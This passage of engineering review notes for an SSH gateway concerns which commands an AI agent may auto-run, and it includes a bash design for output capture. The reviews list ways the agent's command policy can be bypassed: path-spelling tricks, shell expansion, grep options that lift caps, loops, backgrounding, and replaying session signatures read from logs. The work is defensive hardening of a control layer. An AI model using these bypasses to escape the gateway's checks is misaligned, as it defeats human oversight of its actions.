**Who checks:** SC1–SC3 change how the policy reads a command, so send them
back to the security chat for a short look at the diff. The feature reviewer
can check SC4–SC8.

**Open questions:**

* **(a) `ps aux` and `docker ps --no-trunc`: acceptable.** Linux shows every
  process's command line to every local user by default, so command
  arguments are not a secret channel, and the same data is already readable
  at `/proc/<pid>/cmdline` inside the safe trees. On a Proxmox host this
  includes guest processes. That is metadata, and `pct list` is already
  allowed. Under SC1, `docker ps` may not take `--format`, because templates
  can print labels, and labels often hold auth hashes.
* **(b) The safe-tree list: acceptable with SC6.** The four exact `/etc`
  files are fine. `/var/log` is fine as a tree, with SC6's exclusions and SC5's
  caps. `/proc` and `/sys` are deny lists inside a root-readable tree, which
  is the weakest part of the design. They are acceptable with SC6. A follow-up
  should replace them with a positive list of the status files people
  actually read (`meminfo`, `loadavg`, `pressure/*`, `net/*`,
  `/proc/<pid>/status`, `/sys/class/*`, `/sys/block/*`, `/sys/fs/cgroup/*`).

**Accepted residual risks (write them in the operator docs):**

* Logs contain whatever services write to them, including secrets that apps
  log by mistake. Turning the lane on hands those logs to the agent with no
  human in the loop.
* A service account that owns a directory under `/var/log` can plant a
  symlink, and root follows it. The path check is textual. This needs a
  service account to be compromised first.
* `df` on a stale network mount, or `docker` with a hung daemon, can hang.
  A gateway-side execution timeout for read-lane runs is worth a follow-up
  (F5 or security Chunk 7).

**Not blocking:** `main.py` imports `evaluate_policy_verdict` twice.

**Round 4 (2026-11-08): changes requested (SC5 and SC6 gaps). SC1–SC3
ready for the security reviewer.** Reviewed at `43fd95e`; `bash scripts/verify.sh`: `2120 passed, 7 warnings in 341.83s` (the Round 5
commits `4b3a121`, `0861afe`, `c470d6e`, `43fd95e`). As agreed, this round
checks SC4–SC8; SC1–SC3 go back to the security chat.

**SC1–SC3 are present, each with tests.** They are `OPTION_SPECS`, the
`_scan_options` operand rule, and F1's `input-redirect` flag plus the
per-step `input_redirects`. Tests: `test_f4_sc1_*` (5), `test_f4_sc2_*` (2)
and `test_f4_sc3_*` (2). **SC1–SC3 ready for the security reviewer.**

**What holds:**

* **SC4.** `SUBCOMMANDS`/`ACTIONS` check every status verb's subcommand
  (and `ip`'s action) in the policy itself, `zpool` included. An option or
  value before the subcommand cannot hide one, because the first non-option
  word is taken as the subcommand and refused if it is not listed. "Another
  host" options in either position are refused.
* **SC5, mostly.** Line and byte caps apply to every spelling (`-n`,
  `--lines=`, attached and bare-digit forms). "From line N" and "all but the
  last N" are refused, and `head` matches `tail`. Logs under `/var/log` are
  refused for `cat` and `wc`, and `grep` on a log needs `-m`. `journalctl`
  needs `-n` and has no source or output options.
* **SC6, by spelling.** All the new names are refused as written.
* **SC7.** Only an `auto_approved` verdict or a `jit` verdict with no
  `detail_type` passes, so `self_protection_jit` and anything added later
  are refused. A stored `on` now degrades to shadow while
  `read_lane_on_enabled` is unset (`0861afe`, tested).
* **SC8.** Every class in the sign-off has a table row or a test, and the
  generated option test walks every eligible case. The README carries the
  accepted residual risks.
* **No live data.** The new fixtures use `192.0.2.x` and the existing
  `10.0.0.1` test gateway.

I ran about 140 synthetic commands through `breakdown` → `eligible` in a
scratch dir, with both a bare `jit` verdict and the real
`evaluate_policy_verdict`. Four classes are still eligible and break SC5 or
SC6.

*Must fix:*

* **R1 Paths are not normalised before the SC6 prefix checks.** A path
  spelled with an empty component (`//`) or a `.` component gets past every
  *prefix* denial: `/sys/kernel/debug`, `/sys/kernel/tracing`, `/sys/fs/bpf`,
  `/sys/firmware` and `/var/log/installer`. Only `cat` happens to catch the
  `/var/log` form, through `cat-tree`. The `/proc` checks are not affected,
  because they split on parts. **Fix:** in `_path_ok`, refuse any token with
  an empty or `.` component (or refuse any token where
  `posixpath.normpath(token) != token`, after allowing one trailing slash),
  before any prefix test. **Test:** for every entry in `SYS_DENY_PREFIXES`
  and `LOG_DENY_PREFIXES`, the `//` and `/./` spellings are ineligible for
  `cat`, `head`, `tail`, `grep -m`, `ls` and `stat`.
* **R2 Recursive `grep` on `/var/log` reads the SC6 exclusions.** `grep -r`
  is allowed on any operand under `/var/log`, including `/var/log` itself.
  It then walks into `/var/log/installer/` and the cloud-init logs, which
  SC6 refuses by name, so the check only covers files named on the command
  line. `-m` is also per file, so a recursive grep over the whole tree has
  no overall bound (SC5). **Fix:** refuse recursion on any operand that is
  `/var/log` itself or an ancestor of an SC6 exclusion. Or, more simply,
  take `-r`/`--recursive` out of the lane: `ls -R` and `du` still give the
  names. **Test:** a recursive grep with `/var/log` (with and without a
  trailing slash, and with the R1 spellings) as the operand is ineligible.
* **R3 `grep` context options undo the `-m` cap on logs.** `-A`/`-B`/`-C`
  are capped at 1000 each, independently of `-m`, so a capped log grep can
  still print about `m × (1 + A + B)` lines. That is up to a million, which
  is in effect the whole file. SC5 says "any option that undoes a line cap
  is refused". **Fix:** for a `/var/log` operand, either refuse the context
  options or require `m × (1 + A + B) ≤ 1000` (take the larger of `-C` and
  each of `-A`/`-B`). **Test:** a log grep with `-m` at the cap and a context
  option at the cap is ineligible, and one within the product is eligible.
* **R4 `head -z`/`tail -z` undo the line cap.** `-z`/`--zero-terminated`
  makes NUL the line separator. A text log has no NUL, so `-n ≤ 1000` then
  prints the whole file. **Fix:** remove `-z`/`--zero-terminated` from both
  specs and the `z` letter from both clusters. **Test:** each spelling (short,
  long, inside a cluster) is ineligible for both verbs, under `/var/log`.

*Should fix:*

* **S1 Status verbs with no operands should refuse every operand.** Today a
  word that passes `_path_ok` is accepted after any status verb. For
  `date`, `uptime`, `id`, `whoami`, `nproc`, `uname`, `free`, `lscpu`, `ps`
  and the `docker`/`pct`/`qm` subcommands this is harmless today (the tool
  errors out). But it lets an operand through where none is ever valid, and
  `date`'s operand is a set-the-clock argument. Add an `operands` field to
  `_spec` (none / safe paths), with paths only for `df`, `journalctl`,
  `systemctl status`, `zfs`/`zpool` and `ip … show`. **Test:** each no-operand
  verb with a safe-tree path operand is ineligible.
* **S2 The `zpool` short letters don't match its flags.** The letters
  include `G`, but the flag list has `-g`, so `-G` passes and a cluster with
  `g` does not. Make them the same set. **Test:** the SC8 generated test also
  asserts that every spec's `letters` equals the single-letter `flags`.
* **S3 Many log operands multiply the caps.** One `head -n 1000` with dozens
  of `/var/log` files is within the 8 kB limit and prints dozens of times
  the cap. Consider at most N file operands (say 4) for a `/var/log` read.
  **Test:** N+1 log operands are ineligible.
* **S4 `grep -P` and back-references on logs.** A pathological pattern can
  run for a very long time, and nothing at the gateway stops it (see F19).
  Consider dropping `-P` from the lane until F19 adds a time limit. **Test:**
  `-P`/`--perl-regexp` is ineligible.

*Questions for the security reviewer and the operator (no change asked yet):*

* **Q1 SC7 also refuses `shell_meta`, so a chained or piped read never
  auto-runs.** `evaluate_policy_verdict` returns `jit` with
  `detail_type="shell_meta"` for any command with `;`, `&&` or `|`. Round 5
  reads "plain `jit`" as "no `detail_type`", so every multi-step command is
  now ineligible in the real request path. §1 says about 40% of traffic is
  chained and 40% piped. The eligibility table does not show this, because
  its helper passes a bare `{'action': 'jit'}`. Both readings are safe:
  `shell_meta` only says the *gateway* will not auto-run the command, and
  the lane is decided per parsed step on the dashboard. The question is
  scope. If chained reads should stay eligible, SC7 becomes "the `jit`
  `detail_type` is `None` or `shell_meta`, nothing else". Either way, add an
  end-to-end shadow test through `POST /api/request` with a two-step read,
  so the table and the real path agree.
* **Q2 The implementer's open question (unit names under SC2).** I agree
  with implementing SC2 literally for now. If an exception is wanted,
  scope it to `systemctl status|is-active|is-enabled`, with one name word
  matching `[A-Za-z0-9@_.:-]{1,64}` (no `/`, no leading `-`, no glob).
* **Q3 Wrapper options.** The `sudo` context is accepted with any `sudo`
  options. A login-shell or shell form runs root's shell startup files
  before the command. Consider accepting only a bare `sudo`.

Once R1–R4 are in (S1–S4 are welcome in the same round), the feature
reviewer can approve SC4–SC8. SC1–SC3 go to the security chat now, in
parallel.

**Security round 2 (2026-11-09): SC1 and SC3 hold. SC2 holds as a rule, but
Round 5 opened a new gap (SC9), which comes back here.** Security chat,
reviewed at `24d3833` (code at `4b3a121`, tests at `c470d6e`). This was a
read-only review. Nothing was run.

**What holds:**

* **SC1.** `OPTION_SPECS` has one entry per verb or subcommand and no shared
  list. `_scan_options` matches exact spellings only, so an abbreviation is
  refused. A long flag with `=` is refused, and a cluster passes only when
  every letter is listed. A value-taking letter inside a cluster takes the
  rest of the cluster as its value, and every value goes through a
  validator. `--` and a lone `-` are refused. The "another host or
  container" options are refused in either position, because a word
  before the subcommand is taken as the subcommand and fails the check.
* **SC3.** F1 records input redirections and here-strings per step and
  flags the whole command. Heredocs still set the `heredoc` flag. Process
  substitution is refused through its `procsubst` context. Any flag blocks,
  so the early-return paths in `_parse_statement` (shells, `su`/`runuser`)
  are covered as well.
* **The `on` lock** (`read_lane_on_enabled`, set by hand only, and a stored
  `on` treated as shadow while it is unset) is stricter than I asked for.
  Keep it.

**New gap, must fix (SC9): the shell expands words the policy has already
approved.** Round 5 switched `_step_ok` from splitting on whitespace to
`shlex.split`. F1's lexer has already removed the original quoting, and
`_display` re-quotes any word that holds a shell-special character. In
round 3 such a word started with a quote, failed the path check and was
refused. That was the "variable and quoting tricks fail closed" point in my
round-1 note. `shlex.split` now strips that quote again, so the policy sees
a clean-looking word, while the gateway runs the *original* text through
`bash -c`, which expands it. Two classes are eligible today:

* **Parameter expansion in a path.** A `$` word inside a safe-tree path
  passes the textual checks. At run time it can add `..` components or split
  into several words, through the default `IFS` or an earlier bare
  assignment (an assignment-only statement produces no step at all). That
  gives a root read outside the safe trees.
* **Brace and glob expansion in a `grep` pattern.** Neither the `-e` value
  nor the first-word pattern is checked for shell characters. At run time
  one unquoted pattern can expand into several words, and `grep` reads all
  but the first as files, starting in root's home directory.

None of this sets a metacharacter (`$` alone, braces and globs are not on
the list), so neither SC7 nor the gateway's gate catches it. The tests have
no expansion case. I missed the pattern half in round 1, when the `-e` value
was skipped without any check.

* **SC9 rule:** no word in an eligible step may contain a character the
  shell expands when it is unquoted: `$`, a backtick, `{`, `}`, `*`, `?`,
  `[`, `]`, a leading `~`, or a backslash. This covers path operands, option
  values and patterns alike. The breakdown does not say whether a word was
  quoted, so the rule must hold for quoted words too. Patterns are then
  limited to plain text and `.`/`^` anchors, which is acceptable. If regex
  patterns are wanted later, F1 must first record per word that it was
  entirely single-quoted, and only such a word may carry those characters.
* **Also:** refuse any command with a bare variable assignment statement,
  since it changes what later words expand to and shows up as no step.
* **Tests:** one ineligible row per class (parameter expansion in a path, in
  an option value, and in a pattern; brace and glob expansion in a pattern; a
  bare assignment before an eligible read), using synthetic paths only.
* **Who checks:** this one comes back to the security chat.

**The feature reviewer's Round 6 list (R1–R4): confirmed, and extended.**

* **R1–R4 confirmed** as written. For R2, take the simpler fix: remove
  `-r`/`--recursive` from the lane. `ls -R` and `du` still list names.
* **R5 (add, must): line caps don't bound binary or sparse logs.** Like
  `-z`, a file with few newlines makes `-n ≤ 1000` or `-m ≤ 1000` print most
  of the file. The worst case is the sparse login-record file, which can be
  many gigabytes of zeros. For `head`, `tail` and `grep`, refuse the
  journal directory under `/var/log` (use `journalctl`) and the
  login-record files `lastlog`, `wtmp`, `btmp` and `faillog`. Also refuse
  `grep -a`/`--text`; without it `grep` prints only "binary file matches".
* **S1–S4: agree.** S1 matters most, because `date` takes an operand. S3:
  4 log operands is fine.

**Answers to the three questions:**

* **Q1: yes, allow `shell_meta`.** "Plain jit" meant "no rule says a human
  must look". `shell_meta` means "the gateway cannot vouch for this literal
  string", which is exactly the case the lane exists to parse step by step.
  SC7 becomes: the verdict is `auto_approved`, or `jit` with `detail_type`
  `None` or `shell_meta`, and nothing else. Two additions:
  * Refuse a step sent to the background with `&`, because it can outlive
    the session.
  * Add the end-to-end shadow test through `POST /api/request` with a
    two-step read, as the feature reviewer asked.

  This does not depend on SC9, because the expansion classes carry no
  metacharacter, but ship it in the same round.
* **Q2: yes, allow the narrow named-operand exception.** It applies only to
  `systemctl status`, `is-active` and `is-enabled`. Each name must match
  `[A-Za-z0-9][A-Za-z0-9@_.:-]{0,63}`: the first character is a letter or
  digit, so a name can never be read as an option, and there is no `/`, no
  glob and no backslash. Allow at most 8 names, and the `-n` cap still
  applies to `status`. Escaped unit names (with `\x2d`) stay with a human.
  SC9 must land first or in the same round.
* **Q3: yes, accept only a bare `sudo`.** Every command already runs as
  root, so `sudo` adds nothing. Its options add a login shell (root's
  startup files), a shell, a chroot, a different working directory,
  backgrounding and sudoedit. F1 must record whether the `sudo` wrapper had
  any option or assignment, for example by labelling only the bare form
  `sudo`. The lane refuses every other form.

**Precondition for unlocking `on` on any gateway: the gateway must stop
logging session signatures.** This is about the F12 note, and it is
confirmed. The gateway writes the whole `SSH_ORIGINAL_COMMAND` to syslog
before it strips the prefixes, so `ESHU_SESSION_SIG` ends up in the logs.
That signature covers the session id only, not the command, so it can be
replayed while it is valid. Today a human approves every log read. With
`on`, the agent could read syslog or the journal unattended, pick up
*another* session's signed id, and then use that session's F3 plan items
or session override. This does not block the merge, and shadow is
unaffected because nobody unlocks `on` before this is fixed:

* **Gateway fix (security work, before the unlock):** log the command
  without its signed prefixes (the id alone is fine). This is small and
  belongs in security Chunk 7.
* **Design fix (security Chunk 6):** bind the signature to the command, or
  make it single-use, so a leaked signature is worthless. F12 should take
  this into account.

**Status:** SC1 and SC3 are done. SC2 is done once SC9 is in. When SC9, Q1
and Q3 are implemented, send them back here. The feature reviewer checks
R1–R5 and S1–S4. Q2 is optional, and if it is done, the security chat
looks at it together with SC9.

**Round 7 (2026-11-09, main feature reviewer): feature side approved; SC9,
Q1 and Q3 go to the security reviewer.** I re-ran every probe set from
rounds 1–6 plus a Round 7 set, about 150 synthetic commands.

* **Still eligible:** only status reads (`uptime`, `df`, `free`, `ip a`,
  `ss`, `ps`, `systemctl status <unit>`/`list-units`, `journalctl -n`,
  `docker ps`/`stats --no-stream`, `zpool status`, `lsblk`, `uname`), log
  reads with caps (`tail -n 50 /var/log/syslog`), `ls`/`du`/`stat` of safe
  paths, and chains of these (`uptime && df -h`).
* **Refused:**
  * shell-expansion characters in any word (glob or brace grep patterns,
    `$` in paths);
  * bare and prefix assignments;
  * `&` background steps;
  * `sudo` with options;
  * `wtmp` (and its rotations) and the journal folder;
  * `grep -a`, every recursive grep spelling, `/./` paths, `grep -C`
    beyond the cap, `head -z`;
  * command substitution in a chained step.

The F8 merge also made the read-lane report skip excluded rows, which is
correct. **Still owed before merge:** the security reviewer's look at SC9,
Q1 and Q3 (commits `51f2e40` and `0ed276c`). **Still owed before `on` can be
unlocked:** security Chunk 7 (stop logging signatures), Chunk 6 (bind the
signature to the command) and F19 (gateway time and output limits).

**Security round 3 (2026-11-09): final sign-off. Approved on two small
conditions, which the feature reviewer checks. No return trip.** Security
chat, reviewed at `60045c8` (commits `51f2e40` and `0ed276c`). This was a
read-only review. Nothing was run.

**What holds:**

* **SC9.** Every raw step word is checked before `shlex.split`, so F1's
  re-quoting can no longer be undone. All the expansion characters are
  refused, a leading `~` included, even behind a quote. That covers paths,
  option values and both pattern forms. A bare assignment is now an
  `unknown` step. Prefix assignments were already refused, because the
  assignment word becomes the verb.
* **Q1.** SC7 accepts `auto_approved`, or `jit` with `detail_type` `None` or
  `shell_meta`, and nothing else, so `self_protection_jit` still wins. A
  statement ended by `&` carries `background` and is refused. In a
  backgrounded pipeline, the last member carries the marker, so the whole
  command is still refused.
* **Q3.** Only a bare `sudo` keeps the `sudo` context. Any option, `--` or
  assignment gives `sudo(options)`, and nested `sudo` gives a two-item
  context. The lane refuses both.
* **Q2.** The unit-name exception is scoped as agreed: three subcommands,
  at most 8 names, a letter or digit first, and no `/`, glob or backslash.
* **R1–R5** are in as specified. Paths are normalised before the prefix
  checks, recursive `grep` and `-P` are gone, the context product is
  capped, `-z` is gone, binary logs are refused and `grep -a` is gone.
  `ls -R` stays allowed under `/var/log` only, which lists names and is
  acceptable.

**Conditions (before merge, feature reviewer checks):**

* **SC10: refuse loops and grouping.** F1 drops shell keywords and keeps
  only the commands inside them. Q1 now allows `;` and newlines, so a
  `while` or `until` loop whose condition and body are both eligible reads
  is eligible today. It never ends and prints without limit, which is
  exactly what SC5 forbids. This is a consequence of my Q1 answer. Grouping
  with braces or parentheses also loses the `background` marker, because
  the `&` lands after the closing word. **Rule:** F1 flags any command that
  contains a loop (`while`, `until`, `for`, `select`), a conditional (`if`,
  `case`), a function definition, a brace group or a subshell, for example
  with a `compound` flag. Every flag blocks the lane, so these commands are
  refused. The lane is for plain chains of reads. **Tests:** synthetic
  ineligible rows for a `while` loop of two eligible reads, an `until` loop,
  a `for` loop over a fixed list, a grouped read sent to the background with
  braces, and the same with parentheses. Plain chains (`uptime && df -h`,
  `uptime; free -h`) stay eligible.
* **SC11: date-suffixed login-record rotations.** `_binary_log` matches
  `wtmp.1` but not the dated `name-YYYYMMDD` rotation that some
  distributions use. The failed-login file can hold passwords typed into
  the username prompt by mistake. **Rule:** also match `name-` followed by
  anything. **Test:** a dated rotation of each of the four names is
  ineligible for `head`, `tail` and `grep`.

**Verdict:** F4 may merge once SC10 and SC11 are in and the feature reviewer
has checked them. No further security pass is needed for that. `on` stays
hard-locked until security Chunk 7 (stop logging signatures), Chunk 6
(bind the signature to the command) and F19 (gateway time and output
limits) are merged and deployed. Unlocking it on any gateway is a separate
decision for the operator, made by hand.

**Round 8 (2026-11-09, main feature reviewer): approved and merged.** SC10
holds: every loop, `if`/`case`, function, brace group and subshell is
flagged `compound` and refused, including `{ … & }` and `( … & )`. Plain
chains (`&&`, `;`, `||`) stay eligible, and a keyword inside an argument
(`grep -e for …`) is not a construct. SC11 holds: dated login-record
rotations (`btmp-YYYYMMDD`, `.gz`) are refused. All earlier probe sets give
the same eligible set as in round 7.

**`on` stays hard-locked.** Unlocking it requires all of these to be merged
and deployed: security Chunk 7 (prefix-stripped logging), Chunk 6 (the
signature bound to the command), the session key off argv (the security
reviewer's third precondition) and F19 (gateway time and output limits).
Then the operator sets `read_lane_on_enabled` by hand, per the security
sign-off.


---

## Chunk F5 — Execution results (exit code + output tail) · slug `exec-results` · gateway + dashboard

> **Two-step chunk.** First push a branch with **only** a design note under
> Implementer notes: the exact bash for capturing the output tail and posting
> it, how it interacts with `run_sanitized`, `set -eo pipefail`, the
> `[ESHU exit=N]` sentinel and the JSON-body rules at the top of
> `eshu-gateway.sh`, and the temp-file handling (§ 2.7). Wait for the reviewer
> to mark the design **approved** in Reviewer notes, then implement on the same branch.

### Goal

Record what actually happened for every executed SSH command: exit code,
duration, and the last part of the (already sanitized) output.

### Design

* Gateway: `run_sanitized` keeps streaming to the agent unchanged and, in
  addition, tees the sanitized stream into a private temp file (created
  with `mktemp -p /run/eshu`, removed on exit via `trap`), capped at 16 KiB (keep the **tail**:
  `tail -c 16384`). After the command ends it posts, in the background:
  `POST /api/exec-result {target_ip, request_id?, encoded_command, exit_code, duration_ms, encoded_output, output_truncated}`.
  * `request_id` is known for JIT/ticket paths. For allowlist and window paths
    the dashboard matches on `(target_ip, sha256(command))` to the newest
    `auto-approved`/`window-approved` row in the last 120 s without a result.
  * JSON body rules from security chunk 1 apply (base64 for free text; validated ids).
  * Pure bash + coreutils on the hot path (Pi 1 rule): no extra `python3` start.
* Per-gateway setting `capture_output`: `off` | `exit-only` (default) | `tail`.
  Delivered in the policy poll like `zero_trust` and written to `/etc/eshu-capture`.
* Dashboard: table `request_results(request_id PK, exit_code, duration_ms, output, truncated, created_at)`.
  Before storing, run `core/secret_scrub.py` over the output (second pass after the gateway's `sanitize`).
  Retention: 30 days by default (setting), cleaned by the existing cleanup loop.
* UI: exit-code badge and duration on history rows and in the session modal; output
  behind a "show output" toggle (escaped, monospace, max height).
* Session summary (`get_session_summary`) adds `failed` (exit ≠ 0).

### Tests to add

* Gateway sandbox: exit 0 / non-zero / output > 16 KiB (tail kept, truncated flag) /
  `capture_output=off` posts nothing / `exit-only` posts no output / the agent's stdout is byte-identical
  to today's (regression).
* Matching for allowlist paths; no double-attach; unknown request id rejected.
* Secret scrub applied; retention cleanup.
* Compat: old gateway + new dashboard (no results posted) works; new gateway + new dashboard posts.

### Compat impact

New endpoint, new poll field. Old gateways never call it.

### Acceptance criteria

- [ ] Agent-visible output and exit codes unchanged (golden test).
- [ ] Results visible for JIT, allowlist, window and plan paths.
- [ ] Installers regenerated in the same commit; `static/dev/` untouched.

### Implementer notes

**Status: design note only — no code on this branch yet.** Waiting for the
reviewer to mark the design approved before implementing (chunk header).

#### 1. Data flow, end to end

1. **Gateway runs the command** through `run_sanitized` (all four execution
   points — exact allowlist, regex allowlist, JIT ticket/lockbox, and the
   window feature script — funnel through it). `"$@" 2>&1 | sanitize` still
   streams to the agent exactly as today; `sanitize` runs **before** the tee,
   so the captured bytes are already redacted by the gateway's existing rules.
2. **Capture (only when `capture_output=tail`)**: the sanitized stream is
   teed into a bounded FIFO reader that keeps the last 16 KiB (+1 byte, see
   § 3) in a 0600 file under `/run/eshu`. Stdout is untouched: `tee` writes to
   both the agent and the FIFO. The file is removed by an `EXIT` trap.
3. **Post**: after the pipeline, `run_sanitized` computes `rc` and
   `duration_ms`, prints `[ESHU exit=$rc]` exactly as today, then builds the
   JSON body and fires a **background** `POST /api/exec-result` with the
   gateway token. Fire-and-forget, like `log_auto_approve`: no retry, no
   output path that can block or fail the command.
4. **Dashboard receives** it on a new gateway-token endpoint, validates the
   body, runs `core/secret_scrub.py` over the decoded output, caps it, and
   attaches it to a request row:
   * `request_id` present → that row, if it belongs to this gateway and has no
     result yet (unknown/foreign/duplicate ids are rejected, never attached by
     guess).
   * otherwise → the newest `auto-approved` or `window-approved` row for
     `(target_ip, sha256(command))` in the last 120 s **without a result**.
   * nothing matches yet (the `/api/log` call raced the result) → a short-lived
     orphan row, attached when `/api/log` creates the matching request (see
     § 5).
5. **Store** 1:1 in `request_results`; `GET /api/requests` joins the summary
   columns (`exit_code`, `duration_ms`, `truncated`), and the output itself is
   fetched on demand by `GET /api/requests/{id}/output`.
6. **Cleanup** deletes results older than the retention setting in the
   existing cleanup loop; requests are untouched.

#### 2. The exact bash (design to implement)

Two helpers above `run_sanitized`, and a restructured `run_sanitized`. The
JSON-body rule from security chunk 1b is preserved: `TARGET_IP` is validated
at startup, `RESULT_REQUEST_ID` is digits-only or omitted, `rc`/`duration_ms`
are arithmetic integers, `encoded_output` is base64, `truncated` is a literal.

```bash
ESHU_RUN_DIR="${ESHU_RUN_DIR:-/run/eshu}"          # sandbox-relocatable
ESHU_CAPTURE_FILE="${ESHU_CAPTURE_FILE:-/etc/eshu-capture}"
ESHU_OUT_TAIL=""
ESHU_OUT_FIFO=""
ESHU_TAIL_PID=""

capture_mode() {
  # off | exit-only | tail. Anything else (missing file, garbage, a symlink)
  # is exit-only: an unknown value must never turn capture on.
  local v="exit-only"
  if [ -f "$ESHU_CAPTURE_FILE" ] && [ ! -L "$ESHU_CAPTURE_FILE" ]; then
    v=$(cat "$ESHU_CAPTURE_FILE" 2>/dev/null || echo "exit-only")
    case "$v" in off|exit-only|tail) ;; *) v="exit-only" ;; esac
  fi
  printf '%s' "$v"
}

post_exec_result() {   # $1=rc  $2=duration_ms  $3=mode
  local rc="$1" duration_ms="$2" mode="$3"
  local enc_cmd enc_out="" truncated="false" rid=""
  if [ "$mode" = "off" ]; then return 0; fi
  enc_cmd=$(printf '%s' "$cmd" | base64 -w 0)
  if [ "$mode" = "tail" ] && [ -s "$ESHU_OUT_TAIL" ]; then
    if [ "$(stat -c '%s' "$ESHU_OUT_TAIL")" -gt 16384 ]; then
      truncated="true"
      enc_out=$(tail -c 16384 "$ESHU_OUT_TAIL" | base64 -w 0)
    else
      enc_out=$(base64 -w 0 < "$ESHU_OUT_TAIL")
    fi
  fi
  # JSON body: all interpolated values are internal literals, validated
  # (TARGET_IP at startup, request id is digits-only) or base64. Any new field
  # must be validated to a safe charset or JSON-escaped before it is added.
  case "${RESULT_REQUEST_ID:-}" in
    ''|*[!0-9]*) rid="" ;;
    *) rid=',"request_id":'"${RESULT_REQUEST_ID}" ;;
  esac
  { curl --connect-timeout "$HTTP_CONNECT_TIMEOUT" -m "$HTTP_TIMEOUT" -s \
         -X POST "$DASHBOARD_URL/api/exec-result" \
         -H "X-Gateway-Token: ${GATEWAY_TOKEN:-}" \
         -H "Content-Type: application/json" \
         -d '{"target_ip":"'"$TARGET_IP"'","encoded_command":"'"$enc_cmd"'",\
"exit_code":'"$rc"',"duration_ms":'"$duration_ms"',\
"encoded_output":"'"$enc_out"'","output_truncated":'"$truncated"''"$rid"'}'
  } >/dev/null 2>&1 &
}

run_sanitized() {
  local rc=0 mode start_ns end_ns duration_ms
  mode=$(capture_mode)
  if [ "$mode" = "tail" ]; then
    # § 2.7: only the private 0700 work dir; refuse a missing, foreign-mode or
    # symlinked one rather than writing capture files somewhere else.
    if [ ! -d "$ESHU_RUN_DIR" ] || [ -L "$ESHU_RUN_DIR" ] \
       || [ "$(stat -c '%a' "$ESHU_RUN_DIR")" != "700" ]; then
      logger -t eshu-gateway "CAPTURE DISABLED: unsafe $ESHU_RUN_DIR"
      mode="exit-only"
    else
      ESHU_OUT_TAIL=$(mktemp -p "$ESHU_RUN_DIR" eshu-out.XXXXXX) || {
        mode="exit-only"; ESHU_OUT_TAIL=""; }
      if [ -n "$ESHU_OUT_TAIL" ]; then
        ESHU_OUT_FIFO=$(mktemp -u -p "$ESHU_RUN_DIR" eshu-fifo.XXXXXX)
        trap 'rm -f "$ESHU_OUT_TAIL" "$ESHU_OUT_FIFO"' EXIT
        # 16 KiB + 1 tells truncation apart without counting the stream; the
        # reader only ever holds the tail, so a runaway command cannot fill
        # the tmpfs, and `wait` makes the read race-free.
        if mkfifo "$ESHU_OUT_FIFO" 2>/dev/null; then
          tail -c 16385 < "$ESHU_OUT_FIFO" > "$ESHU_OUT_TAIL" &
          ESHU_TAIL_PID=$!
        else
          ESHU_OUT_FIFO=""
          mode="exit-only"
        fi
      fi
    fi
  fi

  start_ns=$(date +%s%N)   # GNU date (coreutils) — the gateway already needs it
  if [ "$mode" = "tail" ] && [ -n "$ESHU_OUT_FIFO" ] && [ -p "$ESHU_OUT_FIFO" ]; then
    "$@" 2>&1 | sanitize | tee "$ESHU_OUT_FIFO" || rc=$?
    wait "$ESHU_TAIL_PID" 2>/dev/null || true
  else
    "$@" 2>&1 | sanitize || rc=$?
  fi
  end_ns=$(date +%s%N)
  duration_ms=$(( (end_ns - start_ns) / 1000000 ))

  if [ "$rc" -ne 0 ]; then
    echo "[ESHU exit=$rc]"
  fi
  post_exec_result "$rc" "$duration_ms" "$mode"
  exit "$rc"
}
```

**Why these choices**

* **`tee` inside the pipeline, not after it.** The chunk asks for the
  sanitized stream, so the tap sits after `sanitize`. `sanitize` and `tee`
  are the last two stages; with `set -o pipefail` the pipeline status is the
  rightmost non-zero — i.e. the command's status in normal operation — so the
  existing `|| rc=$?` and the `[ESHU exit=N]` sentinel keep working. The
  golden test pins this.
* **FIFO + `tail -c 16385` instead of `tee "$file"`.** A plain tee file grows
  with the command (a `journalctl` can emit megabytes) on tmpfs under
  `/run/eshu`; the reader keeps only the tail and the file stays ≤ 16 KiB + 1
  byte. It also avoids `tee >(tail …)`: a process-substitution child is not
  reliably waitable, so reading the file could race the writer. `wait
  "$ESHU_TAIL_PID"` is the fence.
* **16 KiB + 1 byte.** `tail -c 16385` lets the poster decide truncation from
  `stat` alone (`> 16384` → truncated, then take the last 16384) without
  counting the whole stream.
* **The sentinel is outside the capture.** `echo "[ESHU exit=$rc]"` runs after
  the pipeline, so `[ESHU exit=N]` is never part of the stored output (the
  agent still sees it, as today).
* **`set -eo pipefail`.** `|| rc=$?` is the existing guard (no unguarded
  failure can trip `set -e`); `wait … || true` keeps a reader hiccup from
  aborting before the sentinel; the trap removes temp files on every exit
  path, including `exit "$rc"`.
* **`RESULT_REQUEST_ID`.** Set only where the id is in scope: the JIT poll
  path (`REQUEST_ID_INT`, before the `TICKET_FOUND=yes` call). The
  lockbox-claim path, both allowlist paths and the window script do not know
  it — the ticket file is `ts|cmd` only — so they omit it and the dashboard
  matches by `(target_ip, sha256)`. That is a deviation from the chunk's
  "request_id is known for JIT/ticket paths": the *claim-and-burn* path cannot
  know it without changing the ticket format, which is out of scope here.
* **No `python3` on the hot path.** `date`, `mktemp`, `mkfifo`, `tail`,
  `stat`, `base64` are all coreutils; JSON is string concatenation with the
  validated/base64 fields above.
* **Temp files (§ 2.7).** Both names come from `mktemp -p "$ESHU_RUN_DIR"`;
  the data file is created 0600 by `mktemp`, the FIFO by `mkfifo` in the same
  private dir (a `mktemp -u` name is race-free there because the dir is 0700
  root-owned and `mkfifo` fails if anything already exists). Both are removed
  by the `EXIT` trap. The dir is refused if missing, symlinked or not 0700,
  and capture degrades to `exit-only` (never to an unredacted path).

#### 2b. Design round 1: D1–D8 folded in

The design reviewer approved with changes; these are now part of the design.

* **D1 — capture must never cut the agent's output.** `tee -p`
  (`--output-error=warn-nopipe`) keeps stdout flowing when the FIFO reader
  dies (OOM, kill) and keeps the pipeline status; without the option (non-GNU
  `tee`) capture degrades to `exit-only` at startup. The `tee` diagnostic is
  sent to `/dev/null` so a dead reader never injects a line into the agent's
  stream. Test: kill the reader mid-stream; stdout stays byte-identical and
  `rc` is the command's.
* **D2 — output and command off the process list.** The body (up to ~22 KB) is
  piped to `curl --data-binary @-` on **stdin**, never `-d` in argv. The
  token header and `/api/log`'s command in argv are pre-existing exposures and
  go to the § 11 backlog, not this chunk.
* **D3 — the lockbox path must match too.** The gateway sends an
  internal-literal `path` (`allowlist` | `window` | `lockbox` | `jit`). The
  matcher's status set depends on it: `allowlist` → `auto-approved`,
  `window` → `window-approved`, `lockbox`/`jit` → `approved`/`consumed`
